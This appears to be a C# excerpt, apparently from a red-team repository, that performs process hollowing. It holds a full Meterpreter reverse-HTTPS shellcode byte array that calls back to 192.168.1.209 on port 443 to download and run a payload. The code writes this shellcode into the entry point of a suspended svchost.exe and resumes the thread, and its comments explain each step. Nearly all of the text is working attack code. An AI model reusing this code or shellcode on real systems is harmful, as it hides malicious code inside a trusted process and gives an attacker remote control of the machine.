 ```csharp
            byte[] buf = new byte[676] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x4d, 0x31, 0xc9, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x66, 0x81, 0x78, 0x18, 0x0b, 0x02, 0x0f, 0x85, 0x72, 0x00, 0x00, 0x00, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x8b, 0x48, 0x18, 0x50, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x4d, 0x31, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x48, 0x31, 0xc0, 0x41, 0xc1, 0xc9, 0x0d, 0xac, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x41, 0x58, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x4b, 0xff, 0xff, 0xff, 0x5d, 0x48, 0x31, 0xdb, 0x53, 0x49, 0xbe, 0x77, 0x69, 0x6e, 0x69, 0x6e, 0x65, 0x74, 0x00, 0x41, 0x56, 0x48, 0x89, 0xe1, 0x49, 0xc7, 0xc2, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x53, 0x53, 0x48, 0x89, 0xe1, 0x53, 0x5a, 0x4d, 0x31, 0xc0, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x49, 0xba, 0x3a, 0x56, 0x79, 0xa7, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0xe8, 0x0e, 0x00, 0x00, 0x00, 0x31, 0x39, 0x32, 0x2e, 0x31, 0x36, 0x38, 0x2e, 0x31, 0x2e, 0x32, 0x30, 0x39, 0x00, 0x5a, 0x48, 0x89, 0xc1, 0x49, 0xc7, 0xc0, 0xbb, 0x01, 0x00, 0x00, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x6a, 0x03, 0x53, 0x49, 0xba, 0x57, 0x89, 0x9f, 0xc6, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0xe8, 0x7a, 0x00, 0x00, 0x00, 0x2f, 0x53, 0x57, 0x51, 0x75, 0x63, 0x71, 0x59, 0x35, 0x62, 0x30, 0x6f, 0x6d, 0x53, 0x79, 0x64, 0x4a, 0x51, 0x31, 0x41, 0x70, 0x64, 0x67, 0x47, 0x53, 0x77, 0x58, 0x69, 0x41, 0x62, 0x50, 0x50, 0x6a, 0x33, 0x48, 0x32, 0x32, 0x37, 0x48, 0x68, 0x49, 0x57, 0x41, 0x5a, 0x55, 0x57, 0x66, 0x69, 0x6f, 0x42, 0x36, 0x46, 0x74, 0x79, 0x47, 0x75, 0x4b, 0x2d, 0x51, 0x6e, 0x58, 0x4e, 0x44, 0x44, 0x69, 0x57, 0x79, 0x35, 0x61, 0x38, 0x76, 0x52, 0x4f, 0x48, 0x74, 0x57, 0x45, 0x64, 0x62, 0x58, 0x5f, 0x77, 0x45, 0x63, 0x54, 0x50, 0x43, 0x4d, 0x53, 0x59, 0x69, 0x30, 0x46, 0x62, 0x58, 0x47, 0x53, 0x50, 0x72, 0x65, 0x6a, 0x50, 0x4b, 0x52, 0x35, 0x75, 0x4e, 0x5f, 0x42, 0x57, 0x51, 0x59, 0x32, 0x76, 0x6f, 0x7a, 0x32, 0x54, 0x57, 0x4b, 0x78, 0x00, 0x48, 0x89, 0xc1, 0x53, 0x5a, 0x41, 0x58, 0x4d, 0x31, 0xc9, 0x53, 0x48, 0xb8, 0x00, 0x32, 0xa8, 0x84, 0x00, 0x00, 0x00, 0x00, 0x50, 0x53, 0x53, 0x49, 0xc7, 0xc2, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x48, 0x89, 0xc6, 0x6a, 0x0a, 0x5f, 0x48, 0x89, 0xf1, 0x6a, 0x1f, 0x5a, 0x52, 0x68, 0x80, 0x33, 0x00, 0x00, 0x49, 0x89, 0xe0, 0x6a, 0x04, 0x41, 0x59, 0x49, 0xba, 0x75, 0x46, 0x9e, 0x86, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x4d, 0x31, 0xc0, 0x53, 0x5a, 0x48, 0x89, 0xf1, 0x4d, 0x31, 0xc9, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x49, 0xc7, 0xc2, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x75, 0x1f, 0x48, 0xc7, 0xc1, 0x88, 0x13, 0x00, 0x00, 0x49, 0xba, 0x44, 0xf0, 0x35, 0xe0, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0xff, 0xcf, 0x74, 0x02, 0xeb, 0xaa, 0xe8, 0x55, 0x00, 0x00, 0x00, 0x53, 0x59, 0x6a, 0x40, 0x5a, 0x49, 0x89, 0xd1, 0xc1, 0xe2, 0x10, 0x49, 0xc7, 0xc0, 0x00, 0x10, 0x00, 0x00, 0x49, 0xba, 0x58, 0xa4, 0x53, 0xe5, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0x93, 0x53, 0x53, 0x48, 0x89, 0xe7, 0x48, 0x89, 0xf1, 0x48, 0x89, 0xda, 0x49, 0xc7, 0xc0, 0x00, 0x20, 0x00, 0x00, 0x49, 0x89, 0xf9, 0x49, 0xba, 0x12, 0x96, 0x89, 0xe2, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x20, 0x85, 0xc0, 0x74, 0xb2, 0x66, 0x8b, 0x07, 0x48, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xd2, 0x58, 0xc3, 0x58, 0x6a, 0x00, 0x59, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0x89, 0xda, 0xff, 0xd5 };
            //We have obtained the address of the EntryPoint so we can generate our Meterpreter shellcode and use WriteProcessMemory to overwrite the existing code
            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
            //When CreateProcessW started svchost.exe and populated the PROCESS_INFORMATION structure, it also copied the handle of the main thread into it.
            //Thus we can call the handle of the thread directly as the argument to ResumeThread
            ResumeThread(pi.hThread);
            //We now have all the pieces to create a suspended process, hollow out its original code, replace it with our shellcode, and subsequently execute it. 
```
